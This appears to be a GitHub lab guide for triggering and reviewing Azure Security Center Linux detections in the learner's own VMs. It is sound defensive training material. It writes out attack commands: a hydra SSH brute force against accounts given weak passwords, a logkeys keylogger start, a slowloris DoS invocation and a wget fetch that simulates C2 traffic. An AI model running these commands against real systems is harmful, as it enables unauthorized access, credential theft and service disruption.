 ﻿# 04 - Linux Detections
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation and simulations than is covered in this lab*<br>

In this lab we will explore the new Linux detections in ASC by executing steps in the Linux VM(s) that you have deployed earlier. You will connect to your Linux VM(s) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and create the VM
2. Wait for the VM to deployed

#### 2 - Create Linux users 
1. Connect to the Linux VM with SSH that you have deployed previously, using your favorite SSH tool
2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command:
```powershell
sudo adduser <userName>
```
3. Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.

#### 4 - Excuting a brute force attack
1. Connect to the Kali Linux VM with SSH
2. Navigate to the folder **/usr/share/wordlists**
3. Upload the **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```powershell
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```powershell
sudo wget https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Files/lab_pass.txt
```
4. Copy the IP address from the Linux VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your Kali VM, and replace "**IP**" for **yourLinuxVM** public IP address
```powershell
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Wait until it finishes, and the result should show you the username and the password that was found

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```powershell
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below:
```powershell
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in VM2 (Ubuntu VM):<br><br>

1. First, obtain the IP address of the target:
```powershell
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```powershell
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension).*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this:

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux.png)

![alt text](https://raw.githubusercontent.com/tianderturpijn/Azure-Security-Center/master/Labs/04%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux2.png)
